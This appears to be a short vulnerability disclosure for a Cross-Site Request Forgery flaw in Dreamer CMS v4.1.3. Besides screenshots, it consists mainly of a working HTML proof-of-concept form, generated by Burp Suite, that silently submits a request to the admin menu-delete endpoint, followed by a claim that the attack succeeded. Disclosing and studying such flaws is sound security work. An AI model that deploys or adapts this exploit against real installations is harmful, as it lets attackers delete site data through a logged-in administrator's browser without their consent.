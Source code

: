 Target is https://github.com/iteachyou-wjn/dreamer_cms

version:4.1.3

Dreamer CMS v4.1.3 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /admin/u/toIndex.

![1699360243454](https://raw.githubusercontent.com/CP1379767017/cms/dreamcms_vul/images/dreamer-del_menu01.png)

create poc

![图片](https://raw.githubusercontent.com/CP1379767017/cms/dreamcms_vul/images/dreamer-del_menu02.png)


```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://localhost:8888/admin/menu/delete">
      <input type="hidden" name="id" value="1722500429864759296" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>


```
successed

![图片](https://raw.githubusercontent.com/CP1379767017/cms/dreamcms_vul/images/dreamer-del_menu03.png)
